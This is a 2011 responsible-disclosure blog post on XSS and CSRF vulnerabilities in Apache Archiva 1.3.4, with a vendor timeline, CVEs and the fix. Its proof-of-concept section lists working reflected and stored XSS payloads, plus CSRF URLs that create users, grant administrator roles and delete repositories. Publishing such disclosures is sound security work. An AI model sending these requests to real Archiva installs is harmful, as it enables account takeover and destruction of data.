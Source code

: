 ```yaml
---
title: "Apache Archiva Multiple XSS & CSRF Vulnerabilities"
date: 2011-05-30
categories:
- security research
- appsec
- apache archiva
tags:
- xss
- csrf

thumbnailImagePosition: left
thumbnailImage: /img/apache-archiva-multiple-xss-&-csrf-vulnerabilities/1.png
---
```


Multiple XSS and CSRF issues in Apache Archiva version 1.3.4. Disclosure blogpost.

<!--more-->


## Background

When playing around with an installation of Apache Archiva (v1.3.4), I discovered multiple XSS and CSRF issues with the product. I reported these to the vendor and participated in responsible disclosure. This post describes the proof of concept codes and timelines.

**Overview**

```
Project: Apache Archiva
Severity: High
Versions: 1.3.0 – 1.3.4. The unsupported versions Archiva 1.0 - 1.2.2 are also affected.
Exploit type: Multiple XSS & CSRF
Mitigation: Archiva 1.3.4 and earlier users should upgrade to 1.3.5
Vendor URL: http://archiva.apache.org/security.html
CVE: CVE-ID-2011-1077, CVE-2011-1026
```

**Timeline**

```
28 February 2011: Vendor Contacted
1 March 2011: Vendor Response received. CVE-2011-1026 for CSRF Issues Assigned.
7 March 2011: CVE-2011-1077 Assigned for XSS Issues.
14 March 2011: Fixes released to selected channels / Found to be insufficient
27 May 2011: Vendor releases v1.3.5
27 May 2011: Vendor releases security disclosure to Bugtraq and FD.
30 May 2011: Exploit details released on Bugtraq & FD
```

## Product Description

Apache Archiva is an extensible repository management software that helps taking care of your own personal or enterprise-wide build artifact repository. It is the perfect companion for build tools such as Maven, Continuum, and ANT.

Archiva offers several capabilities, amongst which remote repository proxying, security access management, build artifact storage, delivery, browsing, indexing and usage reporting, extensible scanning functionality... and many more! (Source: http://archiva.apache.org/)

## Vulnerability Details

**XSS:** User can insert HTML or execute arbitrary JavaScript code within the vulnerable application. The vulnerabilities arise due to insufficient input validation in multiple input fields throughout the application.

Successful exploitation of these vulnerabilities could result in, but not limited to, compromise of the application, theft of
cookie-based authentication credentials, arbitrary url redirection, disclosure or modification of sensitive data and phishing attacks.

**CSRF:** These issues allow an attacker to access and use the application with the session of a logged on user. In this case if an administrative account is exploited, total application compromise may be acheived.

An attacker can build a simple html page containing a hidden Image tag (eg: `<img src="vulnurl" width="0" height="0">`) and entice the administrator to access the page.

## Proof of Concept

### Reflected XSS


- `http://example.com/archiva/security/useredit.action?username=test%3Cscript%3Ealert%28%27xss%27%29%3C/script%3E`

- `http://example.com/archiva/security/roleedit.action?name=%22%3E%3Cscript%3Ealert%28%27xss%27%29%3C%2Fscript%3E`

- `http://example.com/archiva/security/userlist!show.action?roleName=test%3Cscript%3Ealert%28%27xss%27%29%3C/script%3E`

- `http://example.com/archiva/deleteArtifact!doDelete.action?groupId=1<script>alert('xss')</script>&artifactId=1<script>alert('xss')</script>&version=1&repositoryId=internal`

- `http://example.com/archiva/admin/addLegacyArtifactPath!commit.action?legacyArtifactPath.path=test%3Cscript%3Ealert%28%27xss%27%29%3C%2Fscript%3E&groupId=test%3Cscript%3Ealert%28%27xss%27%29%3C%2Fscript%3E&artifactId=test%3Cscript%3Ealert%28%27xss%27%29%3C%2Fscript%3E&version=test%3Cscript%3Ealert%28%27xss%27%29%3C%2Fscript%3Eclassifier=test%3Cscript%3Ealert%28%27xss%27%29%3C%2Fscript%3Etype=test%3Cscript%3Ealert%28%27xss%27%29%3C%2Fscript%3E`

- `http://example.com/archiva/admin/deleteNetworkProxy!confirm.action?proxyid=test%3Cscript%3Ealert%28%27xss%27%29%3C/script%3E`


### Stored XSS

- Exploit code: `test<script>alert('xss')</script>`

#### Case 1

* Store URL: `http://example.com/archiva/admin/addRepository.action`
* Vars: `Identifier:repository.id, Name:repository.name,Directory:repository.location, Index Directory:repository.indexDir`
* Execute URL: `http://example.com/archiva/admin/confirmDeleteRepository.action?repoid=`

#### Case 2

* Store URL: `http://example.com/archiva/admin/editAppearance.action`
* Vars: `Name:organisationName, URL:organisation:URL, LogoURL:organisation:URL`
* Execute URL: `http://example.com/archiva/admin/configureAppearance.action`

#### Case 3

* Store URL: `http://example.com/archiva/admin/addLegacyArtifactPath.action`
* Vars: `Path:name=legacyArtifactPath.path, GroupId:groupId, ArtifactId:artifactId, Version:version, Classifier:classifier, Type:type`
* Execute URL: `http://example.com/archiva/admin/legacyArtifactPath.action`

#### Case 4

* Store URL: `http://example.com/archiva/admin/addNetworkProxy.action`
* Vars: `Identifier:proxy.id, Protocol:proxy.protocol, Hostname:proxy.host, Port:proxy.port, Username:proxy.username`
* Execute URL: `http://example.com/archiva/admin/networkProxies.action`


### CSRF

- `http://example.com/archiva/security/usercreate!submit.action?user.username=tester123&user.fullName=test&user.email=test%40test.com&user.password=abc&user.confirmPassword=abc`

- `http://example.com/archiva/security/userdelete!submit.action?username=test`

- `http://example.com/archiva/security/addRolesToUser.action?principal=test&addRolesButton=true&__checkbox_addNDSelectedRoles=Guest&__checkbox_addNDSelectedRoles=Registered+User&addNDSelectedRoles=System+Administrator&__checkbox_addNDSelectedRoles=System+Administrator&__checkbox_addNDSelectedRoles=User+Administrator&__checkbox_addNDSelectedRoles=Global+Repository+Manager&__checkbox_addNDSelectedRoles=Global+Repository+Observer&submitRolesButton=Submit`

- `http://example.com/archiva/admin/deleteRepository.action?repoid=test&method%3AdeleteContents=Delete+Configuration+and+Contents`

- `http://example.com/archiva/deleteArtifact!doDelete.action?groupId=1&artifactId=1&version=1&repositoryId=snapshots`

- `http://example.com/archiva/admin/addRepositoryGroup.action?repositoryGroup.id=csrfgrp`

- `http://example.com/archiva/admin/deleteRepositoryGroup.action?repoGroupId=test&method%3Adelete=Confirm`

- `http://example.com/archiva/admin/disableProxyConnector!disable.action?target=maven2-repository.dev.java.net&source=internal`

- `http://example.com/archiva/admin/deleteProxyConnector!delete.action?target=maven2-repository.dev.java.net&source=snapshots`

- `http://example.com/archiva/admin/deleteLegacyArtifactPath.action?path=jaxen/jars/jaxen-1.0-FCS-full.jar`

- `http://example.com/archiva/admin/saveNetworkProxy.action?mode=add&proxy.id=ntwrk&proxy.protocol=http&proxy.host=test&proxy.port=8080&proxy.username=&proxy.password=`

- `http://example.com/archiva/admin/deleteNetworkProxy!delete.action?proxyid=myproxy`

- `http://example.com/archiva/admin/repositoryScanning!addFiletypePattern.action?pattern=**/*.rum&fileTypeId=artifacts`

- `http://example.com/archiva/admin/repositoryScanning!removeFiletypePattern.action?pattern=**/*.rum&fileTypeId=artifacts`

- `http://example.com/archiva/admin/repositoryScanning!updateKnownConsumers.action?enabledKnownContentConsumers=auto-remove&enabledKnownContentConsumers=auto-rename&enabledKnownContentConsumers=create-missing-checksums&enabledKnownContentConsumers=index-content&enabledKnownContentConsumers=metadata-updater&enabledKnownContentConsumers=repository-purge&enabledKnownContentConsumers=update-db-artifact&enabledKnownContentConsumers=validate-checksums`

- `http://example.com/archiva/admin/database!updateUnprocessedConsumers.action?enabledUnprocessedConsumers=update-db-project`

- `http://example.com/archiva/admin/database!updateCleanupConsumers.action?enabledCleanupConsumers=not-present-remove-db-artifact&enabledCleanupConsumers=not-present-remove-db-project&enabledCleanupConsumers=not-present-remove-indexed`

---